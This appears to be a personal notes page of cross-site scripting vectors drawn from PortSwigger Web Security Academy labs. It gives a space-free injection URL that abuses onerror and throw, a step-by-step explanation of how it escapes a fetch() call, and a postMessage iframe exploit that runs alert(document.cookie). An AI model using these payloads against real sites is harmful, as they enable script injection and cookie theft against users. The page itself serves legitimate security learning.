 ```yaml
---
title: # XSS Vectors
date: 2021-11-16
---
```

# XSS Vectors
## XSS Vector Without Spaces, Using Throw

This payload is taken from the portswigger academy [lab](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-url-some-characters-blocked). The request url is the following `/post?postId=5&%27},x=x=%3E{onerror=alert;throw/**/1337},toString=x,window+'',{x:'<`. When the request is sent, the injected html looks like this:

``` html
<a href="javascript:fetch('/analytics', {method:'post',body:'/post%3fpostId%3d5%26%27},x%3dx%3d%3e{onerror%3dalert%3bthrow/**/1337},toString%3dx,window+%27%27,{x%3a%27%3c'}).finally(_ => window.location = '/')">Back to Blog</a>
```

When we extract just the href attribute, remove the javascript prefix and url-decode everything(remember, since we are in an href, url encoded values are actually used in their decoded form, so even though the \' is encoded to %27, it still closes the previous single quote) we are left with the js code:

``` javascript
fetch('/analytics',
  {method:'post',body:'/post?postId=5&'},x=x=>{onerror=alert;throw/**/1337},toString=x,window+''
      ,{x:''}).finally(_ => window.location = '/')
```

What this vector does can be split up into steps:

1.  close the `body:` of the dictionary and close the dictionary, and add a new parameter to the call of the `fetch()` function.
2.  In this new call, define a new function `x` that always throws the error `1337` a. When the function is called, `window.onerror` is set to the `alert` function, so every error thrown in `x()` is passed to `alert` b. then, we throw an error with the message `1337` c. `x(x)` also has a parameter named x, this is because we use the x function as a substitute for `toString`. If we hadn\'t defined it like that, the javascript interpreter would throw an error before we could even call `x`, therefore, our payload wouldn\'t run.
3.  Then, with `toString=x`, we set the toString function to x
4.  Finally, we run `window+''`, which implicitly calls toString and therefore runs our malicious function x.
5.  The rest are used to close the dictionary that we have injected into so that we end up with valid javascript.

# DOM Based XSS message

``` html
<script>
function message(){
document.getElementById('xss').contentWindow.postMessage('{"type":"load-channel","url":"javascript:alert(document.cookie)"}','*');
}
</script>

<iframe height=1000 width=1000 id="xss" src="https://aca21f1a1ea5dc85808d28650079004d.web-security-academy.net/" onload="message()">
</iframe>
```